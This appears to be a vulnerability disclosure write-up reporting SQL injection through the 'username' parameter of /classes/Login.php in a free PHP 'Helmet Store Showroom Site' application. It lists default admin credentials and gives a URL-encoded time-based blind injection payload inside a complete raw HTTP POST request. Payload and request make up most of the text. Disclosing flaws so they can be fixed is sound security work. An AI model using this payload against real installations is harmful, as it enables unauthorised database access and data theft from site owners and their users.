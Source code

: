 # Helmet Store Showroom Site System - SQL injection

Helmet Store Showroom Site exists to contain a SQL injection vulnerability via the 'username' parameter at /classes/Login.php

username:admin password:admin123 ----> {ip}/index.php

Supplier： https://www.sourcecodester.com/php/15851/helmet-store-showroom-site-php-and-mysql-free-source-code.html

/classes/Login.php has SQL injection

Payload: username=admin123%27and%28select%2Afrom%28select%2Bsleep%280%29%29a%2F%2A%2A%2Funion%2F%2A%2A%2Fselect%2B1%29%3D%27&password=admin

SQL injection because $username can be closed

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-11-15/12.png)

## Payload

```
POST /CVE/hss/classes/Login.php?f=login HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 130
Accept: */*
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: PHPSESSID=n2hadqmvc7m63oc6q677vrodfv
Origin: http://localhost
Referer: http://localhost/CVE/hss/admin/login.php
Sec-Ch-Ua: ";Not A Brand";v="99", "Chromium";v="94"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip

username=admin123%27and%28select%2Afrom%28select%2Bsleep%280%29%29a%2F%2A%2A%2Funion%2F%2A%2A%2Fselect%2B1%29%3D%27&password=admin

```

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-11-15/14.png)

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-11-15/13.png)
